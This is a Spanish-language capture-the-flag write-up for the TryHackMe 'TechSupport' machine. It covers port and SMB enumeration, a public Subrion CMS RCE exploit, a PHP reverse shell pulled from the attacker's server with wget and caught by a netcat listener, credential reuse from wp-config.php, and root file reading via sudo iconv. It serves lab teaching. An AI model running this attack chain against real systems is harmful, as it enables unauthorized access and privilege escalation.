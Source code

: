 Bienvenidos nuevamente a otra sala de tryhackme. Una maquina con muchas trampas que me hicieron marear y alfinal en algunas ocaciones tuve que pedir ayuda. Esta catalogada como facil pero yo la porndria en dificultad media. Iniciamos nuestra maquina escaneando puertos abiertos y enumerando lo mas que se pueda, la enumeracion es clave. Utilizamos un exploit RCE para ejecutar comandos y transferirnos un archivo para generar una reverse shell en nuetro sistema. Seguimos enumerando mas todavia para toparnos con otro usuario que debemos encontrar para establecer una conexion ssh y escalar privilegios de usuario raiz root con `iconv`

# Recon

Iniciamos nuestro reconocimiento utilizando __nmap__. Le diremos que escanee todos los puertos abiertos, con una tasa de paquetes de 5000, en modo sigiloso sin activar las alertas de seguridad y haciendo el escaneo mas rapido, tambien le diremos que no compruebe si el objetivo este en linea, que no resuelva los nombres del host durante el escaneo evitando que los servidores __DNS__ registren el escaneo y haciendo el escaneo mucho mas rapido, tambien que nos muestre la version del servicio, y lo resuelva todo en modo agresivo "__T4__", usamos verbose para ver el progreso del escaneo y que guarde todo el proceso en formato normal, para luego poder echarle un vistazo siempre que querramos. Ejecutaremos nuestro comando : `sudo nmap  -p- --open --min-rate 5000 -sS -Pn -n -sV -T4 -vvv IPTARGET -oN nmap`

```ruby
Nmap scan report for IPTARGET
Host is up, received user-set (0.25s latency).
Scanned at 2023-07-05 02:57:30 EDT for 28s
Not shown: 65531 closed ports
Reason: 65531 resets
PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
139/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: TECHSUPPORT; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap

```

Nuestro escaneo de nmap nos muestra los puertos ssh,http y smb abiertos. Navegamos primero al servidor web para obtener una primera impresion del ataque. Nos muestra un servidor apache, asique realizamos nuestro escaneo gobuster para buscar directorios ocultos y mientras se va ejecutando, utilizar smbclient para enumerar el otro puerto disponible.

```bash
gobuster dir -u http://IPTARGET -w /Path/Wordlist -t 100

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://IPTARGET
[+] Threads      : 100
[+] Wordlist     : /usr/share/dirb/wordlists/big.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2023/07/05 03:06:19 Starting gobuster
=====================================================
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/server-status (Status: 403)
/test (Status: 301)
/subrion (Status: 301)
/wordpress (Status: 301)
=====================================================
2023/07/05 03:07:18 Finished

```

```bash
smbclient -L iptarget # Listamos el servicio

Sharename       Type      Comment
---------       ----      -------
  print$          Disk      Printer Drivers
  websvr          Disk      
  IPC$            IPC       IPC Service (TechSupport server (Samba, Ubuntu))

smbclient \\\\IPTARGET/websvr\\ # Entramos en el servicio

smb: \> ls
  .                                   D        0  Sat May 29 03:17:38 2021
  ..                                  D        0  Sat May 29 03:03:47 2021
  enter.txt                           N      273  Sat May 29 03:17:38 2021

# Con more enter.txt podremos leer la nota o la transferimos con get enter.txt
```

Encontramos una nota de texto con unas credenciles de wordpress. La password la vamos a tener que cracker en cyberchef que estara cocinada, como nos indica el texto, con una buena formula. La formula la descubre automaticamente que es **from base58 > from base32 > from  base64 remove non-alphabet chars**.

# Intrusion

Anteriormente hubo muchas trampas, intente probar esas credenciales en wordpress, que si bien sabemos hay un directorio para logearnos en /wp-admin.php pero no tuve exito. Asique nos dirigimos al directorio /subrion, no nos dara ninguna respuesta por lo que tenemos que volver a enumerar con gobuster o realizar una busqueda sobre los diferentes directorios en /subrion. https://kashz.gitbook.io/kashz-jewels/services/subrion-cms

Introducimos las credenciales obtenidas anteriormente en /subrion/panel.
Una vez dentro, ya tenemos el CMS y su version, asique tendremos que buscar un posible exploit.

```bash
searchsploit subrion 4.2.1
searchsploit -m php/webapps/49876.py
```

Una vez obtenido el exploit lo ejecutamos de la siguiente forma para obenter una shell interactiva.

```bash
python3 49876.py -u http://IPTARGET/subrion/panel/ -l admin -p REDACTED
```

Una vez dentro, no podremos mejorara la shell por lo que tenemos que crear otra sesion interactiva dentro de nuestro sitema. Para eso, copiamos nuestra shell php pentest monkey, le daremos permisos de ejecucion y la transferimos al sistema victima. Tenemos que cambiar la extension php por phar 

```bash
chmod +x shell.phar

# En nuestra maquina atacante en el directorio donde tenemos nuestro shell
python3 -m http.server 8080

# En la sesion interactiva del exploit
wget http://IPTARET:8080/shell.phar

# Nos ponemos en escucha
nc -nvlp LPORT
```

Ahora navegaremos al panel del servidor web en la seccion de /uploads y nos deberia aparecer nuestra reverse shell. Hacemos **Click derecho > Get Info** en nuestro archivo malicioso y nos mostrara **Link** en donde tenemos que apretar para generar una reverse shell.

# Priv.Escalation

Tenemos que realizar una enumeracion del sistema, recomiendo que busques alguna herramienta en la que te sientas comodo de enumeracion o puedes hacerlo manualmente hasta toparte con la vulnerabilidad.

En mi caso, como anteriormente en nuestra enumeracion realizada previamante, encontramos el servicio wordpress en el sistema, por lo que, si nos dirigimos al directorio /var/www/html/wordpress encontraremos las configuraciones y base de datos del servicio.
Especialmente en **wp-config.php** encontraremos las credenciales de wordpress. Si intentamos hacer ssh dentro con el usuario que encontramos previamente, no tendremos exito. Dentro del directorio /home, podemos ver otro nombre de usuario, en el que si utilizamos este nombre de usuario con la password obtenida en **wp-config.php** podemos establecer la conexion via ssh.

```bash
ssh scamsite@IPTARGET
```

Listamos los privilegios de superusuario `sudo -l` y tiene permisos en `/usr/bin/iconv`
Nos movemos en el direcotio /usr/bin, editamos el archivo que querramos mirar y ejecutamos lo siguiente:

```bash
LFILE=/root/root.txt
sudo iconv -f 8859_1 -t 8859_1 "$LFILE"
```

Informacion sacada de https://gtfobins.github.io/gtfobins/iconv/